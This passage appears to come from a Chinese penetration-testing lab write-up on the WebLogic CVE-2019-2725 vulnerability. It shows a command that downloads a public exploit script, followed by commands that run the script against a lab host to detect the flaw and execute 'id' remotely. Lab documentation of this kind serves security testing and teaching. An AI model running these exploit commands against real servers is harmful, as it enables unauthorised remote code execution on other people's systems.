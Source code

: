 #### 3.2.1 工具准备

**下载CVE-2019-2725专用利用工具**:

```bash
# 下载专用exploit工具
wget https://github.com/lufeirider/CVE-2019-2725/raw/master/CVE-2019-2725.py
chmod +x CVE-2019-2725.py
```

#### 3.2.2 漏洞验证攻击

**使用专用工具进行验证**:

```bash
# 基础漏洞检测
python3 CVE-2019-2725.py -t http://10.37.133.3:7001 -v

# 执行id命令验证
python3 CVE-2019-2725.py -t http://10.37.133.3:7001 -c "id"
```

**执行结果分析**:

![1748219050543](image/weblogic-cve_2019_2725/1748219050543.png)
